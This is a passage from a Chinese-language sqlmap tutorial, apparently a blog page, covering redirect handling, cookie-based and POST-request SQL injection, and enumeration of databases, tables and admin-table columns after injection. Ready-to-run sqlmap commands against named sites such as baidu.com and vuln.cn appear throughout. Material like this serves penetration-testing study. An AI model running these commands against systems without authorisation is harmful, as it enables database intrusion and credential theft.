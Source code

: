<h3 style="margin:15px 0px;padding:2px 0px 2px 10px;color:#262626;overflow:hidden;border-left:4px solid #169FE6;font-family:&quot;white-space:normal;background-color:#FAFAFA;">
	跟随302跳转
</h3>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	当注入页面错误的时候，自动跳转到另一个页面的时候需要跟随302，<br />
当注入错误的时候，先报错再跳转的时候，不需要跟随302。<br />
目的就是：要追踪到错误信息。
</p>
<h3 style="margin:15px 0px;padding:2px 0px 2px 10px;color:#262626;overflow:hidden;border-left:4px solid #169FE6;font-family:&quot;white-space:normal;background-color:#FAFAFA;">
	cookie注入
</h3>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	当程序有防get注入的时候，可以使用cookie注入<br />
sqlmap -u "http://www.baidu.com/shownews.asp" --cookie "id=11" --level 2（只有level达到2才会检测cookie）
</p>
<h3 style="margin:15px 0px;padding:2px 0px 2px 10px;color:#262626;overflow:hidden;border-left:4px solid #169FE6;font-family:&quot;white-space:normal;background-color:#FAFAFA;">
	从post数据包中注入
</h3>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	可以使用burpsuite或者temperdata等工具来抓取post包
</p>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	sqlmap -r "c:\tools\request.txt" -p "username" --dbms mysql &nbsp; &nbsp;指定username参数
</p>
<h2 style="margin:15px 0px;padding:2px 0px 2px 10px;color:#262626;overflow:hidden;border-left:4px solid #169FE6;font-family:&quot;white-space:normal;background-color:#FAFAFA;">
	注入成功后
</h2>
<h3 style="margin:15px 0px;padding:2px 0px 2px 10px;color:#262626;overflow:hidden;border-left:4px solid #169FE6;font-family:&quot;white-space:normal;background-color:#FAFAFA;">
	获取数据库基本信息
</h3>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	sqlmap -u "http://www.vuln.cn/post.php?id=1" &nbsp;--dbms mysql --level 3 --dbs
</p>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	查询有哪些数据库
</p>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	sqlmap -u "http://www.vuln.cn/post.php?id=1" &nbsp;--dbms mysql --level 3 -D test --tables
</p>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	查询test数据库中有哪些表
</p>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	sqlmap -u "http://www.vuln.cn/post.php?id=1" &nbsp;--dbms mysql --level 3 -D test -T admin --columns
</p>
<p style="margin-top:0px;margin-bottom:0px;padding:0px;text-indent:2em;font-family:&quot;font-size:14px;white-space:normal;background-color:#FAFAFA;">
	查询test数据库中admin表有哪些字段
</p>